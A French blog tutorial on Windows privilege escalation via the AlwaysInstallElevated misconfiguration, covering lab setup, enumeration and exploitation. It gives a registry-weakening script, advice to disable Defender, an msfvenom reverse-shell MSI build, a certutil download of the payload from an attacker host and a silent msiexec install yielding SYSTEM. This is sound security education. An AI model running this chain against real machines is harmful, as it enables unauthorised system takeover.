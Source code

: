 ```yaml
---
title: Windows Privilege Escalation - AlwaysInstallElevated
date: 2024-06-12 22:57:02 -0400
description: AlwaysInstallElevated est un paramètre du registre Windows qui affecte le comportement du service Windows Installer. La vulnérabilité survient lorsque la clé de registre "AlwaysInstallElevated" est configurée avec une valeur de "1" dans le registre Windows.
    Lorsque cette clé de registre est activée, elle permet à des utilisateurs non administrateurs d'installer des logiciels avec des privilèges élevés. En d'autres termes, les utilisateurs qui ne devraient pas avoir de droits d'administration peuvent exploiter cette vulnérabilité pour exécuter du code arbitraire avec des autorisations élevées, ce qui peut compromettre la sécurité du système.
categories: [RedTeam]
tags: [HTB, Windows, THM]
image:
    path: https://i.ibb.co/NKSrMyh/Always-Install-Elevated.png
---
```



- **[The Best Academy to Learn Hacking](https://referral.hackthebox.com/mz6xj5g)**.
- **[Beginner Friendly challenges on TryHackMe](https://tryhackme.com/signup?referrer=61e8a27ddd3f3b00496505d1)**.


## Configuration du Lab

Pour simuler cette vulnérabilité dans un environnement de laboratoire, nous allons configurer notre système de manière à être vulnérable à la mauvaise configuration `AlwaysInstallElevated`. 

- **OS:** *Windows 10*

Pour commencer, je vais d'abord lancer la commande ``Set-ExecutionPolicy -ExecutionPolicy RemoteSigned -Scope CurrentUser`` pour autoriser notre utiliser a executer des scripts dans le SYSTEME.

- Ensuite on desactive le Windows Defender pour ne pas interompre notre apprentissage.

Nous allons maintenant configurer les clés de registre nécessaires pour rendre le système vulnérable. Utilisez le script PowerShell ci-dessous pour configurer les clés de registre `AlwaysInstallElevated` :

```powershell
$global:version = "1.0.0"

$ascii = @"

.____                        .__            .____          ___.     _________       __                
|    |    ____   ____ _____  |  |           |    |   _____ \_ |__  /   _____/ _____/  |_ __ ________  
|    |   /  _ \_/ ___\\__  \ |  |    ______ |    |   \__  \ | __ \ \_____  \_/ __ \   __\  |  \____ \ 
|    |__(  <_> )  \___ / __ \|  |__ /_____/ |    |___ / __ \| \_\ \/        \  ___/|  | |  |  /  |_> >
|_______ \____/ \___  >____  /____/         |_______ (____  /___  /_______  /\___  >__| |____/|   __/ 
        \/          \/     \/                       \/    \/    \/        \/     \/           |__|    

~ Created with <3 by @nickvourd
~ Version: $global:version
~ Type: AlwaysInstallElevated

"@

Write-Host $ascii`n

Write-Host "[+] Configuring HKEY_LOCAL_MACHINE registry`n"
#Create a new key in HKEY_LOCAL_MACHINE registry
New-Item -Path "Registry::\HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer"

#Create a new DWORD (32-Bit) Value and insert hex data
New-ItemProperty -Path "Registry::\HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer" -Name "AlwaysInstallElevated" -PropertyType DWORD -Value 0x00000001

Write-Host "`n[+] Configuring HKEY_CURRENT_USER registry`n"
#Create a new key in HKEY_CURRENT_USER registry
New-Item -Path "Registry::\HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer"

#Create a new DWORD (32-Bit) Value and insert hex data
New-ItemProperty -Path "Registry::\HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer" -Name "AlwaysInstallElevated" -PropertyType DWORD -Value 0x00000001
```

## Enumeration && Exploitation

Imaginez alors qu'on a un acces utilisateur sur une Machine Windows comme ici:

![FootHold](https://i.ibb.co/jGXfy1w/1.png)

- Pour faire l'enumeration j'utilise 2 Methodes, dont la premiere est Manuellement et la seconde avec un outil `SharpUp`:


### Enumeration(Manuellement)
Pour vérifier manuellement si les clés de registre `AlwaysInstallElevated` sont activées, on utilise ces 2 commandes.

```powershell
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
```

> Si ces 2 registres sont activés (la valeur est `0x1`), alors les utilisateurs de tout privilège peuvent installer et exécuter des fichiers ``.msi`` en tant que **NT AUTHORITY\SYSTEM**.
{: .prompt-info }

![Query](https://i.ibb.co/6myrDw0/3.png)


### Enumeration (`SharpUP`)
**SharpUp** est un outil qui permet d'automatiser l'énumération des vulnérabilités sur les systèmes Windows.
Pour Telecharger SharpUP vous pouvez le trouver dans Ressources supplementaires en bas de cette poste:

- D'abord on le telecharge sur la machine victime puis on lance:

![SharpUP.exe](https://i.ibb.co/tBXd9Fs/4.png)

Sur la photo on vois qu'on peux lancer SharpUP avec 2 options. 
- La premiere c'est `audit` et puis la vulnerabilite qu'on voudrais checker

![vulnerable](https://i.ibb.co/wrCPxhv/5.png)

Donc ici on vois bien que rien a changer et la valeur est toujours sur `0x1` en hexa, ce qui veux dire que notre systeme victime est vulnerable.


## Exploitation de la Vulnérabilité

Une fois que nous avons confirmé que les clés de registre `AlwaysInstallElevated` sont activées, nous pouvons exploiter cette vulnérabilité pour obtenir des privilèges élevés.
Pour exploiter cette vulnerabilite et avoir les privilege *Administrateur* dans l'ordinateur victime, c'est simple. Il faut:

- **Premierement**: Creer un fichier Malveillant en `.msi`
Pour cela j'utilise `msfvenom`

```sh
$ sudo msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.56.1 LPORT=1337 -f msi -o rev.msi
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of msi file: 159744 bytes
Saved as: rev.msi
```

Ensuite, on transfere ce fichier Malveillant sur la Machine Victime

```sh
C:\Users\bloman\Desktop>certutil -urlcache -f http://192.168.56.1/rev.msi rev.msi
certutil -urlcache -f http://192.168.56.1/rev.msi rev.msi
****  Online  ****
CertUtil: -URLCache command completed successfully.

C:\Users\bloman\Desktop>
```
- Puis d'executer l'installation du fichier malveillant `.msi` en arriere plan avec l'outil `msiexec` tout en ouvrant notre Listner `netcat`

```sh
msiexec /quiet /qn /i fichier.msi
```

![NT Authority](https://i.ibb.co/Ph8C0TX/6.png)


## Ressources supplementaires
Voici quelques ressources supplémentaires qui pourraient vous être utiles :
- [SharpUP](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries)
- [Hacktricks WIndows hardening](https://book.hacktricks.xyz/v/fr/windows-hardening/windows-local-privilege-escalation#alwaysinstallelevated)
- [Join Us on Discord](https://discord.gg/wBT9wr9ruG).
